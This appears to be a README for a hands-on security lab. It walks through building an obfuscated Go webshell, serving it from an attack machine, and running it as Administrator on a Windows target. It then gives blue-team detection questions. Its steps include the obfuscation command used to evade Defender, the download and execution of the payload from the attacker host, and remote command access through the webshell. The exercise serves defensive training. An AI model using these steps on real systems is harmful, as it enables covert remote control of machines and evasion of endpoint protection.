 # Webshell

Standard web shell that will run on linux or windows, listening for connections.

1. First you need to create a new version of the file with binary obfuscation. In the **Attack Desktop** open a terminal.
2. Change to the workshop directory hosting the ironcat_attack modules.
`cd /home/pslearner/workshop/webshell/ironcat_attack`
3. From here run the generate_payload.sh script agains the /webshell/webshell.go file.
`garble -tiny -literals -seed=random build -ldflags='-s -w' webshell.go`
4. This will generate the new .exe in the folder and host it for you on a simple web server.
`python3 -m http.server`
5. Now, open the **Windows Target** device.
6. Open Firefox.
7. Browse to the Attack Desktop at **http://172.31.24.10:8000**
8. Navigate to the webshell.exe file, and click it to download.
9. Open the command prompt by right clicking the dektop icon and choosing "Run as Administrator"
10. Change directory to the newly downloaded file. `cd c:\Users\pslearner.PS-WIN-1\Downloads\`
11. Run the webshell, using any arguments you would like.  As long as there are two. ex. `webshell.exe meow meow`
12. Open a firefox browser and browse to http://localhost:59679
13. Ta Da! I present to you webshel...with no defender alerts.
14. To properly simulate activity, swap to the Attacker Desktop.
15. Open a browser with the browser icon in the bottom of the screen.
16. Browse to 172.31.24.20:59679.  And you have now access the webshell the same way an attacker would.
17. Run a few commands, like `whoami` or `dir`


## Recommended tools
- Netstat & Powershell
- Wireshark
- Sysmon
- Velocirpator


## Questions to Ask
- Can you identify the malicous connections without prior knowledge? What is odd about the Network Tuple?
- What can you do from a network perpsective to signature this activity across your environment?
- What had to be true for you to access this from outside the device?
- Can you identify any names that would be associated with initial acitivty?

Once you are done answering the questions for yourself, check out some of the IOCs I identify for this activity here:

[WebShell IOCs](./webshell_iocs.md)






